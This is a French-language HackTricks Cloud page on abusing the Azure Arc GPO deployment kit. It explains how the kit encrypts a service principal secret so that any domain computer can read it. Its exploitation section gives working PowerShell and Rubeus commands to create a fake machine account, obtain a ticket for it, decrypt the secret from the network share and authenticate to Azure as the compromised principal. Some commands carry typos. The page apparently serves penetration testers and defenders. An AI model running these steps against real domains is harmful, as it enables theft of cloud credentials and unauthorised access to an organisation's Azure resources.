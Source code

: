 # Az - Script de déploiement de GPO vulnérable Azure Arc

{% hint style="success" %}
Apprenez et pratiquez le piratage AWS :<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Formation HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Apprenez et pratiquez le piratage GCP : <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Formation HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenez HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Identification des problèmes

Azure Arc permet l'intégration de nouveaux serveurs internes (serveurs rejoignant un domaine) dans Azure Arc en utilisant la méthode de l'objet de stratégie de groupe. Pour faciliter cela, Microsoft fournit une trousse de déploiement nécessaire pour initier la procédure d'intégration. À l'intérieur du fichier ArcEnableServerGroupPolicy.zip, les scripts suivants peuvent être trouvés : DeployGPO.ps1, EnableAzureArc.ps1 et AzureArcDeployment.psm1.

Lorsqu'il est exécuté, le script DeployGPO.ps1 effectue les actions suivantes :

1. Crée la GPO d'intégration des serveurs Azure Arc dans le domaine local.
2. Copie le script d'intégration EnableAzureArc.ps1 vers le partage réseau désigné créé pour le processus d'intégration, qui contient également le package d'installation Windows.

Lors de l'exécution de ce script, les administrateurs système doivent fournir deux paramètres principaux : **ServicePrincipalId** et **ServicePrincipalClientSecret**. De plus, il nécessite d'autres paramètres tels que le domaine, le FQDN du serveur hébergeant le partage, et le nom du partage. Des détails supplémentaires tels que l'ID du locataire, le groupe de ressources et d'autres informations nécessaires doivent également être fournis au script.

Un secret chiffré est généré dans le répertoire AzureArcDeploy sur le partage spécifié en utilisant le chiffrement DPAPI-NG. Le secret chiffré est stocké dans un fichier nommé encryptedServicePrincipalSecret. La preuve de ceci peut être trouvée dans le script DeployGPO.ps1, où le chiffrement est effectué en appelant ProtectBase64 avec $descriptor et $ServicePrincipalSecret comme entrées. Le descripteur se compose des SID des groupes Domain Computer et Domain Controller, garantissant que le ServicePrincipalSecret ne peut être déchiffré que par les groupes de sécurité Domain Controllers et Domain Computers, comme indiqué dans les commentaires du script.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploitation

Nous avons les conditions suivantes :

1. Nous avons réussi à pénétrer dans le réseau interne.
2. Nous avons la capacité de créer ou de prendre le contrôle d'un compte d'ordinateur au sein de l'Active Directory.
3. Nous avons découvert un partage réseau contenant le répertoire AzureArcDeploy.

Il existe plusieurs méthodes pour obtenir un compte machine au sein d'un environnement AD. L'une des plus courantes est d'exploiter le quota de compte machine. Une autre méthode consiste à compromettre un compte machine via des ACL vulnérables ou diverses autres mauvaises configurations.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Une fois qu'un compte machine est obtenu, il est possible de s'authentifier en utilisant ce compte. Nous pouvons soit utiliser la commande runas.exe avec le drapeau netonly, soit utiliser pass-the-ticket avec Rubeus.exe.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
En ayant le TGT pour le compte de notre ordinateur stocké en mémoire, nous pouvons utiliser le script suivant pour décrypter le secret du principal de service.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternativement, nous pouvons utiliser [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

À ce stade, nous pouvons recueillir les informations restantes nécessaires pour se connecter à Azure à partir du fichier ArcInfo.json, qui est stocké sur le même partage réseau que le fichier encryptedServicePrincipalSecret. Ce fichier contient des détails tels que : TenantId, servicePrincipalClientId, ResourceGroup, et plus encore. Avec ces informations, nous pouvons utiliser Azure CLI pour nous authentifier en tant que principal de service compromis.

## Références

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)
